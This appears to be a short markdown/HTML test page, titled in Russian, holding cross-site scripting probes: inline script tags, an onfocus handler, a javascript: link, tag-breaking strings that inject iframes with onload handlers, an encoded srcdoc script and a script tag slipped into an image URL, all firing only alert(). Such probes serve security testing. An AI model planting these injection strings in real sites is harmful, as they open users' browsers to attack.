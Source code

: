 # Гиперссылка 

<p>
Привет, Вася<script>alert()</script>!
</p>

<form action='page.php' method='POST'>
<input name='name' value='' autofocus onfocus='alert();'>!
</form>

<a href=" javascript:alert(123)">Вернуться</a>'"></title></script><iframe onload='alert``'>
 

<iframe srcdoc="&#x3C;script&#x3E;alert()&#x3C;/script&#x3E;">

'"></title/</script/</style/><iframe/onload='alert``'

![img](https://www.imgonline.com.ua/ <script>alert()</script> examples/bee-on-daisy.jpg/ )

